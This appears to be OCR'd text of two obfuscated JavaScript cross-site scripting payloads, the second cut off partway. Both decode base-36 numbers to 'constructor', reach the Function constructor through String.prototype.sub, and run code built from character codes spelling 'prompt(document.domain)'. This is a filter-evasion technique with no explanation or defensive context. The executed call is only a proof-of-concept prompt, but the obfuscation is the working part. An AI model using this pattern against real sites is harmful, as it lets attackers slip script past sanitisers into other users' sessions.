 ```javascript
{
  {
    x = 767015343;
    y = 50986827;
    a = x.toString(36) + y.toString(36);
    b = {};
    a.sub.call.call(
      b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub), a).value,
      0,
      toString()[a].fromCodePoint(
        112,
        114,
        111,
        109,
        112,
        116,
        40,
        100,
        111,
        99,
        117,
        109,
        101,
        110,
        116,
        46,
        100,
        111,
        109,
        97,
        105,
        110,
        41
      )
    )();
  }
}
```

```javascript
{
  {
    x = 767015343;
    y = 50986827;
    a = x.toString(36) + y.toString(36);
    a.sub.call.call(
      {}[a].getOwnPropertyDescriptor(a.sub.__proto__, a).value,
      0,
      toString()[a].fromCharCode(
        112,
        114,
        111,
        109,
        112,
        116,
        40,
        100,
        111,
        99,
        117,
        109,
        101,
        110,
        116,
```